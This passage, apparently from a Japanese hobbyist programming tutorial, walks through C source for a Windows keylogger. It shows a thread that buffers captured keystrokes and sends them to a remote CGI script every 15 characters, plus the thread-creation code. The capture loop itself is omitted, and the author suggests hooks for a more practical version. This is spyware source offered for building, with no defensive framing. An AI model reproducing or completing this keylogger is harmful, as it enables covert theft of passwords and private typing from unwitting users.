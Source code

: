 　ではでは、この関数の呼び出し元に行きましょう。

-----
DWORD WINAPI Logger(LPVOID lpvoid)
{
    DATA *Data = (DATA *)lpvoid;
    UINT len = 0;

.......
........（中略）
.........

       if( !(TEXT_SIZE > len) ){
            if(SendLogData(MainMemory, len)){
                MessageBox(Data->hWnd, "HTTPエラー", "Error", MB_OK);
                DestroyWindow(Data->hWnd);
            }
            ZeroMemory(MainMemory, sizeof(MainMemory));
            len = 0;
        }
        Sleep(100);
    }

    return 0;
}
-----

　中略の部分にはGetAsyncKeyState関数でのどす黒いキーロギングのソースが並
びます(^^。フックを利用してもよいのですが、メンドクサイのでとりあえずこれ
でいきましょう。
　Logger関数は、スレッドとして作成され処理されています。
　「WINAPI」がついてる関数は、スレッドとして実行される関数のようですが詳
しくはしらないので気になるならば調べてみてください。
　Sleepで100ミリ秒待ってるので、つまり0.1秒ごとにキーの入力を調べてます。
しかし。0.1秒は以外に長いもので、結構キーストロークを見逃します。やはり
実用的にするならばフックを利用したほうがよさそうですね。
　プログラム自体は単純で、TEXT_SIZEとlenが同じになったら、即ちMainMemory
が埋まったら、MainMemoryにはいっている文字列を送信するためにSendLogData
に渡します。
　そして、ゼロクリアして再び、MainMemoryに溜め込みます。
　TEXT_SIZEはプログラムの最初に15としているので15文字溜まったらCGIに送信
されます。気にいらないなら適当に変更してもよいです。

　では、次はこの関数を実行したスレッド作成部分にいきます。

-----
    case WM_CREATE:
        Data.hWnd       = hWnd;
        Data.ThreadFlag = TRUE;
        
        DWORD ID;
        if((Thread = CreateThread(NULL, 0, Logger, (LPVOID)&Data, 0, &ID)) == NULL){
            MessageBox(hWnd, "スレッドが作成できませんでした", "Error", MB_OK);
            DestroyWindow(hWnd);
        }
-----
